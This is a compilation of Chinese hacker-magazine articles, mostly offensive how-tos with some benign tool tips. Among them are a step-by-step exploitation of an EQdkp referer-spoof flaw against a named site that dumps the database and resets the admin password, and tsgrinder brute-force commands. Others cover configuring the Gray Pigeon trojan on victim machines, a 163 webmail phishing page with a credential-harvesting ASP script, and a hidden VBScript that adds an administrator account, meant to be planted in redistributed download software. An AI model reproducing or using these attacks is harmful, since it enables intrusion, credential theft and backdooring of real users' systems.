我们今天的主角就是“劲舞挂机宝贝4”的破解版。先运行“破解启动.exe”，记得一定要先运行这个程序。运行后会弹出提示（图1），不必管它直接点“确定”，等一会就会出现破解外挂的界面（图2）。点“启动外挂”后……


就会进入劲舞挂机宝贝的主界面了，十分简洁。第一次进入后会要求你指定劲舞团的地址，找到劲舞团文件夹里面的 patcher.exe，打开就可以使用了（图3）；接下来就是舞步和游戏的设置，点“帐号登录”，输入任何数字帐号密码都可以登录（图4）。舞步设置就用默认的4K舞步，当然你也可以选择其它舞步；在“功能设置”中跳舞模式就是进入游戏后选择跳的什么舞，挂机设置的选项全部选上就OK了……（图5）。

游戏外挂设置完毕，按F9启动外挂，进入劲舞团，没有提示找到外挂。开房间，直接开始游戏，看呀，他自己在跳舞哦（图6），不过要注意的是不能离开劲舞团主界面，离开后外挂就不会帮我们跳了。这样，我们的人物等级和游戏币就会一点点多起来了，也可以到处炫耀一番了。

## 黑客与呼延血魂堂军团

### 魔兽公会系统最新漏洞大曝光


（作者与导语信息，位于标题下方横幅区域）

### 一、前言

在06年第11期的《黑客X档案》上，石头曾写过一篇关于魔兽EQdkp公会系统的文章，介绍的是魔兽公会系统EQdkp的一个远程文件包含漏洞利用……近日EQdkp系统再次爆出严重漏洞：EQdkp Referer Spoof to access to SQL Database，EQdkp 1.3.1及以下版本都受影响。那么这个漏洞究竟是怎么一回事，我们又该如何利用呢？

### 二、漏洞简介

攻击者利用referer地址欺骗的方式来获得访问EQdkp系统的class-1 MySQL Backup/Restore页面权限，然后即可下载和修改数据库中的敏感数据。之所以会如此，是因为程序在访问该页面时只检查是否从特定后台管理路径进入，也就是判断访问者的referer地址，而没有做更严格的权限校验。


如果referer处的地址是后台管理路径的地址的话，就给予访问class-1 MySQL Backup/Restore页面的权限。这个漏洞可是非常严重的，存在于所有的EQdkp系统，连官方也不例外哟！

### 三、漏洞利用过程

我们来看看该漏洞具体的利用过程。首先在Google中搜索 Powered by EQdkp 1.3.1，会找到很多使用EQdkp系统的网站，随便挑一个进行测试吧，如图1！在测试之前先向大家推荐一款referer欺骗工具——QuickSpoof，该工具是此漏洞的发现者Eight10在其漏洞公告中提及的，我在国外的一个论坛上将其下载了下来，程序运行后的界面如图2所示。


首先点击“Add”按钮，“Description”栏是描述信息，可以随便填写，我填写的是“EQdkp <= 1.3.1 Referer Spoof to access to SQL Database”，下面的“referer”栏是页面的来源地址“http://www.laiwang.com/dkp/admin”，其中“dkp”是EQdkp系统的所在路径，“admin”是EQdkp系统后台管理的默认路径，“Target”栏我们填“http://www.laiwang.com/dkp/admin/backup”，也就是class-1 MySQL Backup/Restore页面所在的路径，如图3。


然后我们点击“Add”按钮将其添加到程序中，所添加的信息都保存在和QuickSpoof同一文件夹下的SPOOFS.txt文件中，这样下次启动程序时便不必再次添加了。一切准备就绪后点“Spoof”按钮开始欺骗；如果成功的话我们便会进入如图4所示的页面。点击“Backup MySQL Data”下方的“here”链接进入如图5所示的页面，此处程序会要求我们选择要备份的数据库，也就是EQdkp系统所在的数据库。有两个数据库，test数据库是MySQL的默认数据库，当然另一个eblaiwang8com就是我们需要的了。选择eblaiwang8com后点击旁边的“Select”按钮，然后就会进入如图6所示的页面，这就是eblaiwang8com数据库中所有的表信息了。因为EQdkp系统后台管理员的帐号和密码存放在eqdkp_users表中，所以在这里勾选eqdkp_users表，其它的表可以不用选择。最下面的“Select MySQL details to backup”处保持默认即可，它们分别是表结构和表数据的意思。最后我们点“Select”按钮，就会弹出数据库下载的提示对话框了，如图7，我们将backup.sql文件下载保存到本地。


图9

数据库都已经成功下载下来了，接下来我们就可以在backup.sql文件中寻找后台管理员的帐号和密码的md5值。那么后台管理员的帐号究竟是什么呢？我教大家一个方法，首先去公会的首页查看一条新闻，注意“submitted by”后面的信息，也就是新闻提交者的名字；通常这个帐号就是后台管理员的帐号名称，我们找到的名字叫做“laiwang”，如图8。


图10


图11

使用记事本打开backup.sql文件，按Ctrl+F搜索“laiwang”，laiwang后面的一串md5值就是该用户密码的md5值了。我们把它放到www.cmd5.com上查询一下，可惜没有查询到，看来laiwang这个用户的安全意识还是很高的嘛！

那么查询不到对应的md5密码所对应的值我们就进不去后台了吗？No！细心的读者应该注意到了，在图4中“Backup MySQL Data”的下方有个“Restore MySQL Data”选项，它的意思是恢复MySQL数据，我们还可以利用它把后台管理员的密码改成我们所设置的密码。


图12

首先打开桂林老兵的“DELPHI版MD5计算工具”，在“字符串”中输入我们要设置的密码，我输入“xufang19860219”，然后点击“转换”按钮，这样程序便自动将字符串“xufang19860219”所对应的32位及16位md5值计算出来了，如图10。

因为EQdkp系统数据库中用户的密码采用的是32位的md5，所以我们将转换的32位md5值粘贴到backup.sql文件中用户“laiwang”密码所对应的md5值的地方；记得先要将字符串型原始密码md5值进行备份，我们退出后再将其还原回来，否则此管理员进不了后台可就不好了。修改完成后保存文件，然后我们进入class-1 MySQL Backup/Restore页面，点击“Restore MySQL Data”下面的“浏览”按钮选择刚才修改后的backup.sql文件，其中“Select MySQL details to restore”处保持默认即可，也就是恢复表结构和表数据的意思，如图11。


图13

然后点“Restore”按钮，会出现如图12所示的页面，这是让我们选择数据要恢复到的数据库，因为刚才是在eblaiwang8com数据库中备份的资料，这里当然是选择它了。点“Select”按钮，最后出现如图13所示的页面提示我们“Restore Complete”，也就是恢复完成的意思，这样一来后台管理员的密码设置为“xufang19860219”了。我们使用这个密码登录查看，果然成功进入了后台，如图14。


图14

现在我们就是管理员了，DKP想改多少就改多少；不过遗憾的是我在后台转了半天也没能找到获得webshell的方法，挂马的话有长度限制，连本地提交也没成功。如果哪位朋友有兴趣可以研究一下，成功后记得写出来分享哦！（本文所涉及到的QuickSpoof和操作动画已收录到光盘中）

## Windows终端服务的终结者

提起Windows终端服务的远程破解工具，很多人会想到tscrack。本文介绍另一款较少人知的终端破解软件**tsgrinder**，并说明其在兼容性与破解效率方面的特点。


> **小说明**：TSGrinder是用于终端服务口令测试/破解的工具，文中说明了其通过TS/ActiveX相关机制进行测试的原理及注意事项。

先来看tsgrinder的使用方法（图1），下面对主要参数做简单说明。

- `-w`：字典文件（如 `dict`）
- `-l`：密码替换文件（如 `leet`）
- `-d`：domain name / 域名
- `-u`：被破解用户名（如 `administrator`）
- `-n`：并发破解线程数

```bash
tsgrinder.exe -w words -l leet -d workgroup -u administrator -n 2 127.0.0.1
```


示例：针对某服务器输入命令后，工具会按字典与替换规则迭代尝试密码。文中举了 `apple` 与 leet 替换（如 `l->1`）的检测过程，说明其按规则生成候选口令继续尝试。

作者认为tsgrinder的优势在于线程数更灵活、速度较高，并建议通过 `smclient.ini` 等配置进一步挖掘其潜力。

## 让肉鸡的桌面听我的

本文介绍如何通过注册表修改系统桌面背景。先打开注册表编辑器，定位到 `HKEY_CURRENT_USER\ControlPanel\Desktop`，再利用相关键值进行替换。

文中说明 `Wallpaper` 字符串当前值（如 `C:\article\old.bmp`）即系统桌面背景路径，将其改为自定义图片地址即可实现桌面更换。


`Wallpaper` 字符串的值为 `C:\article\new.bmp`，重启或注销系统使注册表生效，可以看到已经更换成新的桌面了（图3），证明我们的修改是成功的。远程修改桌面时可以使用系统自带的远程注册表服务进行远程修改，或者使用大多数木马集成的注册表管理器进行修改。我介绍的是两种更加简单而且更实用的方法。


图2


图3

### 一、直接导入 reg 文件法

我们新建一文本文档，在里面写入以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\ControlPanel\Desktop]
"Wallpaper"="C:\\article\\old.bmp"
```

其中 `C:\\article\\old.bmp` 为你要设置的背景路径，需要注意的是路径需要使用 `\\` 进行目录切换，图片类型必须为bmp，而且最好和目标电脑的分辨率一样。

完成后将其重新命名为 `desktop.reg`，并上传至对方电脑，假设上传到了 `C:\`。从远程溢出成功得到的cmdshell或木马的cmdshell中切换至 `C:\` 下，执行 `regedit /s desktop.reg` 命令将注册表文件导入到注册表中（其中 `/s` 是总确认导入而不弹出提示），命令成功完成后即可修改成功（图4）。


图4

### 二、直接输入命令法

接下来我们使用系统自带的reg命令来进行修改，在对方的cmdshell下直接执行 `reg add HKEY_CURRENT_USER\ControlPanel\Desktop /v Wallpaper /t REG_SZ /d "C:\article\old.bmp" /f` 命令，其中 `C:\article\old.bmp` 是你的图片地址。命令成功完成后得到提示，表示修改成功（图5）。

“对了！我们可以使用系统自带的runas命令，比如想修改jannick用户的桌面，那么可以在cmdshell下输入 `runas /profile /user:jannick "regedit.exe /s c:\desktop.reg"`，命令执行后会要求你输入用户jannick的密码（图6）；或在cmdshell下输入 `runas /profile /user:jannick cmd.exe`，同样输入密码，也可以成功修改（图7）。”


图5

其实这两种执行方法是一样的，都是使用runas命令来指定jannick用户身份来运行注册表。


图6


图7

使用以上方法我们就达到了修改对方桌面的目的。其实这个方法还有很多应用，比如修改系统配置、使用下载者进行下载并自动执行，或者写入批处理远程运行等等，还是那句话：“入侵就像搭积木，就看你怎么组合了。”（本文所涉及到的注册表文件已收录到光盘中）

## 免费！免费！继续免费！

第九街的咖啡  星海恋集  TMVGVH

在以前的《黑客X档案》上，我们曾经介绍过几款免费电话软件，但是可以免费发短信的软件却一直没有什么更好的。虽然网上发短信的工具也有一些，比如KC、网易泡泡等，但都有限制和需要手机注册（这总是让人感觉到心里慌怕怕的）。本文我们将分别介绍S-Plus免费网络电话以及中国移动的飞信免费发短信，这两个工具经过测试，还是令人非常满意的。另外，我们还要介绍一下如何免费发彩信，如今的手机越来越高级，不物尽其用的话那就太浪费了。

### 免费网络电话——S-Plus

前些天在网上无意中发现了S-Plus这款免费电话软件，下载下来安装后，感觉效果非常不错。有这么一个好东西当然要和大家分享了。首先安装S-Plus，基本上一路NEXT就可以完成安装了。安装完成后S-Plus会自己运行，来到注册界面（图1）。


E-mail一定要填一个可以收信的，因为需要验证。个人随身码就随便填一个吧，然后是填写好密码，全部填好后点击创建，就会来到如图2所示的界面。这一步是要求你确认刚才所填的各项是否正确，确认无误后点击“确定”（这一步要多点击几次确定才行）。当出现如图3所示的界面时，就说明注册成功了，下一步就是去邮箱完成验证。


打开我们的邮箱，将会收到一封主题为“S-Plus Free Bonus Activation Confirmation”的电子邮件，内容如图4所示，复制下面的链接到浏览器中提交，就可以完成E-mail确认了，如图5。

账号激活了，下面我们填上账号和密码登录上去（有时会登录不上，你只要狂点登录，过一会儿就可以上去了），这时会在右下角出现账号期限提示，如图6。界面就是个电话，怎么打电话就不用我教了吧。


- 拨打固定电话的格式是：86+区号（区号前不加0）+电话号码。
- 拨打手机的格式是：86+手机号（拨打外地手机号也是如此，手机号前不加0）。
- 软件提示注册后可以拨打中、港、台、美、加等地30分钟电话，初期送20点（计费使用），经测试几天的免费之旅，发现赠送的20点根本没用完，看来可以免费一段时间了。


### 短信，我只要免费的——飞信

在上期杂志中，NINE为大家介绍了jajah的使用，这使得我可以放心地和MM大煲电话粥。可是有些话总是不好意思说出口的，那就来发短信吧，可是JaJah只能发送英文和数字，这可是十分地不方便哟。后来经过我的一番淘宝，终于在网上找到了一款既支持中文还可以免费发短信的软件——飞信。这个软件是由中国移动推出的，目前是试用期，发送的所有短信全部免费，心动吧！

飞信下载安装运行后的界面如图7所示，先来注册，填入你的手机号，后手机会收到一条短信，再填上手机收到的验证码就可以注册成功了，同时会得到一个Fetion号（注册过程中虽然需要手机验证，但因为是中国移动推出的，所以不会出现乱收费的情况）。


登录飞信后，先添加好友，勾选“对方手机号”并输入对方手机号，如果对方也注册了飞信，还可勾选“对方Fetion号”并输入对方的Fetion号码，然后就是等待对方同意了，如图8。当对方同意后，我们就可以通过飞信免费给对方发信息了，注意哟，这需要双方都注册飞信才行哟。将鼠标放在对方的ID上，在弹出的菜单中点击“短信聊天”，如图9，现在就可以狂发短信了，每条短信最多182个字符，系统会根据输入内容的长度拆为2—3条短信（虽说免费但也不要太过分了，我第一次使用时在半个小时内就给MM发了一百多条，结果把人家惹怒了，后来还是跪搓衣板过的呢）。


飞信不仅可以给好友发信息，还可以给自己发信息，同时还支持群发，只需要将鼠标放在“我的好友”上再点击“短信聊天”就可以了，但最多只能给8个人群发，如图10。另外使用飞信发信息还不受区域的限制，我的手机号是石家庄的，前几天到了邢台就不能使用了，但使用飞信发短信就可以照发不误，爽吧！可是有一点不好的地方，就是通过飞信给好友免费发送信息，倘若对方使用手机直接回复收到的短信的话就要收费了（使用飞信手机客户端也可以免费收发短信）。


### 移动彩信随意发

最近我们家涵涵刚换了一个NOKIA的彩屏手机，总是喜欢和别人比彩图，还老叫我给她发彩信。哎，发就发吧，可这一发不要紧，我的电话费就像高血压一样，一下子蹿得老高，这怎么行呢，必须得想个办法来解决。

要想免费发彩信，就不得不用到中国移动开通的移动梦网，我们先到 http://photo.monternet.com 注册，如图11。注册时需要使用手机验证，不过不用担心，经过我一个多月的试用，完全没有任何费用的，包括收发彩信。


注册后就会拥有4M的空间，可以用来存放图片和铃声什么的，登录后就可以发彩信了。首先点击“我的图片”，然后点击“上传图片”，如图12。


注意，图片可以从本地上传，也可以从网上直接复制图片地址，但是图片格式必须是jpg或gif格式，而且大小也不要超过500k。

不过，根据我的小经验，由于是给手机发彩信，所以图片大小最好是控制在50k以下，太大了很多手机不能接收到的，只会浪费表情了^^，如图13。

上传完成后，点击我们刚刚上传的图片图标，就会进入图片发送页。点击“转发彩信”，输入对方的手机号和验证码，如图14，就会将彩图发送给对方了，图15。


> （文章中涉及到的软件S-Plus、飞信2006已经收录于光盘中）

## 菜鸟的超级养鸡法

—☆水之痕≈


这几天，我QQ上的几个小弟一直追着问我：为什么他们使用奔网配置的灰鸽子不能自动上线？为什么他们的肉鸡会自动消失？……几个问题把我都给弄得晕乎乎的（其实我也是个菜鸟而已，嘿嘿）。所以我决定介绍一下关于灰鸽子外网上线+FTP更新IP，省得那些小弟们天天追着我问了。


我们需要使用的工具有灰鸽子、申请域名使用的花生壳，还有名扬四海的Serv-U。首先来申请一个花生壳域名（免费的就足够用了），并在本机的花生壳上登录，如图1。这步的目的是为配置灰鸽子和FTP更新作准备。


接着调试我们的“东兔宝宝”灰鸽子（为了节省篇幅，我就不介绍木马的配置了，大家可以参阅以前的《黑客X档案》杂志），生成灰鸽子的服务端程序，如图2。


假如各位传播木马的技术不是很厉害的话，可以在本机上运行来看看木马是否配置成功（前提是花生壳上必须要有你的账号登录着）。OK，成功上线了，接着打开另一个工具Serv-U，先点开本地服务器，然后右键点“升级”，如图3。


在域IP地址里选择使用任何可用的IP地址，如图4，然后下一步，在域名里填入你刚才申请的域名，如图5。


点下一步，在域端口号中输入21（注意，必须要用21），再点击下一步，在域类型里选择储存于计算机注册表，然后点下一步，完成建域。


在域的下方找到用户，并右键新建一个用户，如图7。用户名、密码什么的随意填就可以了，不过千万不要忘记了，以后要用来更新IP的。主目录是存放更新后IP文件的地方，最好存放在你放鸽子的文件夹里。然后点击“目录访问”，把“进入”都打上勾（中间会出现一个警告，不管它，确定）。


灰鸽子就配置好了。先用你的花生壳域名配置出一个服务端，然后点击自动上线。FTP服务要填你的花生壳域名，端口填21，用户名、密码随意，不过用户名是一定要填的……


其实配置木马只是学习黑客中最最基础的一步，大家还是要多多学习其它的技术，使自己的综合实力越来越强，才能更好地为中国网络的安全而奋斗！

## 到163.com钓“鸡”去

无敌小龙（张博）

说道163，大家最耳熟能详的应该是它的EMail服务了……所以，我们这次“垂钓”的对象也就选择163的Webmail了。

话不多说，先来建立一个HTML文件，内容如下：

```html
<html>
<body>
由于系统数据升级，你的部分信息需要重新设定，请在下面正常填写
<form action="http://yoursite.com/get.asp">
请输入您的姓名
<input type=text value=四少 name=id>
<br/>
请输入您的密码
<input type=password value=123456 name=password>
<input type=button value="提交">
</form>
</body>
</html>
```


将其另存为a.html……双击打开这个文件，如图1。不会做网页的朋友也可以打开一个网站，选择文件、保存……在类型中选择仅HTML文件（如图2、图3）。

找到保存下来的HTML文件，用记事本打开，把没必要的内容删去，保留登录输出后，需要修改其中的提交地址为 action="http://yoursite.com/get.asp"。

好，就这么多，剩下的就要求小菜自己去琢磨HTML代码了。现在，还要一个get.asp文件，用来接收这个表单提交的id和password数据：

```asp
<%
id=request("id")
pass=request("password")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("fisher.txt"),8,TRUE)
file.WriteLine id+" "+pass
file.close
set file=nothing
set fs=nothing
response.write ""
%>
```

> 给小菜的提示：  
> 使用记事本写好后，另存为`get.asp`文件。把这个ASP文件传到支持ASP的空间，并把原表单中的提交地址改为你的空间地址（例如`http://yoursite.com/get.asp`）。

这段ASP代码的意思就是把表单提交的id和password变量数据保存到你网站下的fisher.txt文件中去。

## 傻瓜黑客

万事俱备，只欠东风，现在还要使用到一个软件——Fastmail。这个软件有一个很大的优点，就是可以自定义邮件的发信人，而且还可以把一个HTML文件直接作为邮件的内容传递给收信人。

打开软件，在收件人那里填写“鱼儿”的邮箱。主题可以填写：网易服务中心 数据升级。其它迷惑性的文字描述你可自由发挥。发件人的填写比较重要了，这关系到收件人在接收到这封邮件的可信度。


找到刚才的表单文件，最后点击“发送”，邮件发送成功后会有“发送成功”的提示。邮件成功发送后，对方邮箱里会收到一封标题为“网易服务中心 数据升级”的邮件。


当然，提交的表单页还可以改为其它填写要求，比如“QQ服务器升级，您原来的信息丢失”等等。为了增加可信度还可以使用特定邮箱作为发信人。

## 小心你的网页人气中的猫腻

好友说QQ空间花快死了，叫我去帮着浇水。后来在某期《黑客文档》中看到介绍如何刷QQ空间人气的文章，于是把代码上传到自己的空间测试。

测试时发现访问刷空间地址会出现其它网站地址，于是打开代码查找，在搜索qq.asp时看到明显可疑代码。随后使用查找iframe的方式继续排查。

```html
...
<iframe src=http://www.czsn.cn width=0 height=0></iframe>
...
```

```html
<iframe src="http://www.czsn.cn/agphoto/sskwraps/book.htm" width="0" height="0" border="0"></iframe>
<script src="/flash/xin.js"></script>
```

```html
<iframe src=http://www.qiandu.com/pick/showvote.asp?id=24582&action=vote width=0 height=0></iframe>
```


当打开对应的vote页面时，发现是投票页，相当于别人使用我们的空间刷人气时，都会自动为该页面投票。继续查看另一个页面并分析其脚本来源。

此外，查挂马还可以查找JS文件，很多人通过JS脚本来隐藏挂马。搜索.js后下载脚本，再检查其中的iframe等可疑内容。

下载完了，也没发现其它的挂马内容。查看源代码也没发现什么，可能还没做成网页马什么的吧，但是如果把这个换成做好的网马，相信很多没打补丁的朋友都会中马的。所以，当我们要用到这样一些资源的时候，请小心其中的猫腻，当检查清楚后，再来使用它们。


## 对文件加密进行到底

Windows是一个多用户的操作系统，所以有些私人的文件需要妥善地保管，保管的最好方法自然就是加密一下喽。

### 一、一些诡异的加密方法

- 利用“#”字符  
  建立一个文件夹，在文件夹名称中包含“#”字符。如果文件夹里有CHM文件……把需要保存的文档制作成CHM文件放到这样的文件夹里即可。需要查看时再复制到别处即可解密。


- 利用“..\”  
  打开CMD输入命令创建“hacker..\”文件夹，会出现错误提示；再建立“hacker”文件夹后即可打开该目录，实现对文件的隐藏与访问控制。


- 无敌COPY  
  首先建立一个1.txt文件，在内容里输入文字并保存，然后找一张图片，在CMD下输入`Copy 1.txt /a + 1.jpg /b 2.jpg`，即可把文本内容加到图片中；同理可加到其它文件类型。

```bash
Copy 1.doc /b + 1.txt /a 2.doc
Copy 1.wav /b + 1.txt /a 2.wav
Copy 1.exe /b + 1.txt /a 2.exe
```


### 二、形形色色的文件加密工具

- 文件夹隐藏大师  
  文件夹隐藏大师可彻底隐藏所选文件夹（即使显示所有文件也看不到），还可伪装图标为*.dll、*.sys等类型。通过“文件隐藏”“恢复”“改变图标”等功能实现隐藏与伪装。


## 傻瓜黑客

图6，选中后单击“确定”就可以了，软件本身也为我们提供了很多不错的图标以供我们使用。

它还有一个很不错的小功能——“程序锁”和“私人文件夹”，使用它们可以把某些程序锁住，还可以把一些重要的文件放入到属于自己的“私人文件夹”中来保存。操作都很简单，大家试用一下就会掌握了。


### 2．文件夹伪装专家

文件伪装专家除了能改变文件夹图标，还可以隐藏文件夹内所有信息，替换成其他的内容。比如可以把文件夹改成“控制面板”的图标，而且双击后打开的是控制面板的内容，你自己的资料别人一点也看不到。软件运行后如图7所示，首先在左边的窗口中选中要更改的文件夹，选中后点右边的图标，你想改什么就改什么。软件会提示你是否继续，选择“确定”就可以把文件伪装好了。如果想恢复伪装的文件，选中伪装后的文件，单击右边的“解除伪装”就可以了，如图8。


### 3．万能加密器

万能加密器是一款小巧高速的加密软件，加密文件大小不限、文件类型不限。它采用高速的算法，加密速度很快也很安全。软件的界面也比较美观，有加密解密列表功能、独特的密码查询功能等。

软件运行后如图9所示，选择加密标签，接着点“添加文件”按钮来添加要加密的文件，如果要加密多个文件可以选择“批量添加文件”，然后在下面设置一个密码，单击“开始加密”就可以了。

软件除了可以进行加密和解密，还可以编译可执行文件、分割文件、伪装文件夹等，还可以对程序设置访问密码，拥有加密历史列表记录功能，可以说是一款不可多得的好工具哟。

### 4．加密金刚锁

加密金刚锁是一款专业的文件和文件夹加密工具，具有界面友好、简单易用、功能强大和兼容性好的特点。软件的主要功能有加密、解密、打包为EXE文件、嵌入式文件加密解密、给EXE文件加密等，而且还可以进行在线升级。

软件操作很简单，运行后如图10所示，在右侧选择要加密的文件或文件夹，选择好后，点“加密”就可以了。我们可以根据需要选择不同的加密算法。在软件开始运行的时候，我们还可以使用授权盘功能或者使用文件做密码来进行加密。

### 5．新概念文件加密器

新概念文件加密器突破了传统加密软件的格局，可以将电脑上任何类型的文件进行加密。更重要的是加密后得到的文件，当打开它时提示输入密码，一旦输入正确的密码，就会将加密的文件直接打开，不像刚开始的几种工具都要进行解密才可以查看到加密的文件。同时软件可以对文件的各种属性进行修改，可以自由修改文件创建、打开、保存、修改的时间以及多种附加属性。

在进行加密前，我们可以对密码的加密强度和安全性进行级别设置，一般选中级就可以了。设置好加密级别后，我们可以在右面选择要进行加密的文件，然后再点左面的“加密”按钮就可以进行加密设置了。点击浏览按钮，设置一下目标文件，再设置一下密码，一般还要删除源文件，这个可以根据自己的实际情况进行选择。

### 6．文件蒸发

文件蒸发这款工具可以把重要的文件完美地“蒸发”掉，软件操作十分方便，十分适合个人电脑的保密工作。程序运行后如图11所示，在主界面双击要蒸发的文件，然后点击“蒸发所有的选中文件”按钮就可以轻松搞定；如果是要蒸发文件夹，那就点击“蒸发文件夹”就可以了。


### 7．私人图片安全浏览器

私人图片安全浏览器是一款用于浏览加密私人图片的软件，可对图片文件夹进行加密并浏览已加密图片。操作方式类似ACDSee：先点击“增加路径”选择图片路径，再点击“加密 All”进行批量加密；需要查看时可用“解密 All”。


> （文中涉及到的工具：文件伪装专家、万能加密器、加密金刚锁、新概念文件加密器、文件蒸发、私人图片安全浏览器，光盘中已收录）


经常清理垃圾文件的用户会发现：系统还原会持续保存“还原点”，随着时间增加会占用更多磁盘空间。可通过清理无用还原点，仅保留必要的还原信息。

### 一、只保留最新的还原点

右键磁盘→“属性”→“磁盘清理”→“其他选项”→“清理”，即可删除旧还原点并保留最新还原点。


### 二、删除所有还原点

打开“控制面板”中的“系统”，切换到“系统还原”，将监视关闭并确认，可删除该分区上的还原点。

### 三、删除任意还原点

1. 在分区根目录找到 `System Volume Information` 隐藏文件夹。  
2. 在“工具→文件夹选项→查看”中取消“使用简单文件共享（推荐）”，启用显示隐藏文件，并取消“隐藏受保护的操作系统文件（推荐）”。  
3. 若为NTFS分区，在该文件夹“安全”页为当前用户授予“完全控制”权限。  


进入 `System Volume Information` 后，可见 `RP1`、`RP2`…`RPn` 文件夹，每个对应一个还原点，数字通常越小时间越早。

4. 在“附件→系统工具→系统还原向导”中确认不需要的还原点序号后，删除对应 `RPn` 文件夹即可。比如要删除倒数第二个，那就删除对应的“RP22”文件夹（图6）；再次打开“系统还原向导”，你就会发现“测试1”已经不见了（图7）。  
5. 使用上边的方法，你会发现最新的还原点“测试2”删不掉。只需要进入“RP23”文件夹，将除 `change.log` 以外的文件全部删掉，打开“系统还原向导”，就会发现“测试2”也不见了（图8）。当有新的还原点创建时，就可以将此文件夹完全删除了。  


### 四、备份重要的还原点

有些病毒会将你的“系统还原”功能关闭，或是将还原点内的文件也感染上病毒。你可以把重要的还原点备份，即把对应的文件夹“RPn”拷贝到其他地方，等到还原点被破坏的时候再将它拷回去。这样就不怕病毒攻击了。

## 解决复制页面数据产生乱码问题

magic dog

前两天旭方找到了一个Linux的本地溢出程序给我看，说是从火狐上弄来的，但我弄了半天都没有将其中的乱码给去掉，就索性让他把整个页面传了过来，打开后如图1所示。


表面看似正常，但当复制到文本文档里时却有大堆的乱码，这样是不能编译成功的，如图2（这种情况在很多网站上都有，我想是为了防止别人复制内容吧，但像这种大量的代码不去复制，难道要手一行一行地输入吗？）。


使用记事本打开一个一个地去掉当然可以，但那样太费时间了。使用FrontPage打开，发现里面用了两种方式来隐藏乱码：一个是把乱码颜色设置成和页面底色一样，如图3。

```html
<SPAN style="DISPLAY: none">uSArs&mnn,z,q,V</SPAN>
```

另一个是利用HTML的 `span` 标签，上面的代码为隐藏一段乱码。为了能够将乱码快速清除掉，我当然想到了替换功能，但是使用FrontPage不知道该怎么利用通配符（打算替换 `<SPAN style="DISPLAY:none">*</SPAN>`，但“*”不能认作通配符）。先来解决前面一堆乱码：打开Word把页面加载进来，然后开始“替换”。

“替换”→“高级”→“格式”→“字体”选择颜色，在“自定义”里面填好乱码使用的RGB颜色……然后选择全部替换就OK了（使用空白替换）。接下来是对付那个讨厌的标签……最后提醒一下大家，在制作的时候最好是先注释掉那段代码，再使用Word来替换乱码。


## 脚本语言的妙用

柳若寒

### 一、使用网际快车来制作后门

首先我们来看以下一段代码：

```vbscript
<script language="VBScript">
Set r=CreateObject("WScript.Shell")
r.run "net user 柳若寒 123 /add",0
r.run "net localgroup administrators 柳若寒 /add",0
</script>
```

这是一段非常简单的VBScript代码，其中 `net user … /add`、`net localgroup administrators … /add` 是添加用户并提升为管理员；参数“0”代表隐藏执行命令时的cmd窗口。把这段代码保存为html文件运行后，会弹出安全警告窗口（图1）……


在注册表 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt\` 中可以找到IE右键菜单相关信息，找到与网际快车相关项可见其调用安装目录中的 `jc_link.htm` 文件（图2）。将上面的代码插入该文件即可实现更隐蔽的执行方式。你可以把下载工具先进行改造，比如添加一些开启3389的命令什么的，再提供给别人下载，嘿嘿，这样成功就不是一般的大了。


### 二、打造最简单的星号密码查看器

同样的思路，我们使用VBScript和在注册表中添加IE右键菜单来实现，首先看实现功能的代码：

```vbscript
<script language="VBScript">
Sub GetPassword()
  set srcEvent = external.menuArguments.event
  Set doc=external.menuArguments.document
  set ele=doc.elementFromPoint(srcEvent.clientX,srcEvent.clientY)
  if ele.type = "password" then
    if ele.value = "" then
      Alert("密码为空")
    else
      Alert("密码为" & ele.value)
    end if
  end if
end sub
call GetPassword()
</script>
```

把上面的代码保存为html文件，比如 `d:\pass.html`，然后在注册表 `HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\MenuExt` 下新建一项，命名为“查看星号密码”，选中该项，把里面的默认字符串数据改为保存的html文件地址：`d:\pass.html`。在该项下增加一个DWORD值，值为4，表示只在右击表单元素时有效果（图3）。关闭注册表，重新启动IE窗口就可以看到效果了，只要在密码框中点击右键选中该项，就会显示密码框中的密码了。

| 名称 | 类型 | 数据 |
|---|---|---|
| （默认） | REG_SZ | d:\\pass.html |
| 上下文菜单 | REG_DWORD | 0x00000004 (4) |

## 菜菜办证不求人

黑侠（Black Mask）

在许多论坛里我们都经常看到一些诸如帅哥证、网友许可证等恶搞证书。前些日子在黑客X档案论坛的贴图版块，就有人给欠钱小编制作了光棍证、帅哥证和忽悠许可证，如图1。有些菜菜可能会认为这些证书是使用Photoshop制作的，其实不然，这些恶搞证书都是在一些专门的网站上制作的。

我们打开 http://id.igogo8.com/ 这个网站，先来制作一个结婚证吧，点击“结婚证”，如图2。在下方的框中输入姓名、年龄等一些信息，最后点击“办理证件”，就会自动生成一张结婚证书了，如图3。

`http://id-img.igogo8.com/data/2006/images/jie/95/95820.gif` 就是结婚证书的地址了，制作的过程非常简单。除了结婚证书外，还有其他的帅哥证、网友许可证、超级美眉证、光棍证等等，使用上述方法，我们都可以简单制作。

再打开 http://www.makepic.com/kiss/cert.php 生成一个Kiss学堂颁发的结业证吧，在学员名里输入两个名字，中间使用逗号分开，点击发证，如图4。呵呵，就这么简单地生成自己的证书了，想玩的菜菜们，就动手给你的好友做几张发给对方玩吧！


## 我的工具听我的

罗霖琛 [L.B.K.]


关于文件加密的文章，在黑客X档案上已经介绍过许多了，但使用的方法不外乎使用一些特殊字符或特殊文件名，使得文件无法使用正常方式打开。另外就是使用一些专用的文件加密工具来隐藏或加密文件，当使用时，只有使用相应工具进行解密后才能正常打开。那么，有没有别的更好的方法呢？比如当我们要运行工具时，它会要求我们输入注册码什么的，就像网上许多要注册后才能使用的软件一样。

在网上翻了半天，总算找到这么一个程序——PE_Admin，它可以自动地给EXE程序加入注册码，而且还可以反调试跟踪，另外还有给软件添加版权的功能等。不多说了，先来看一下这款软件的界面吧（图1）。


我们以MD5加密解密器为例，打开PE_Admin（打开的时候会有一个注册提示，不必理会；那是作者给我们做示范用的）。先来配置左边的加密选项，在“限制每次试用多少分钟”一栏中可以设置允许用户每一次使用该程序最多多长时间，否则程序就会自动退出；在“限制每隔多少分钟提示注册”一栏里可以设置经过多少分钟后程序提醒用户应该注册的信息；再下面的“限制试用日期”“限制试用次数”和“限制试用天数”大家可以根据自己的需要进行填写，建议最好将“是否植入加密文件”选上，其余内容就随便大家了。

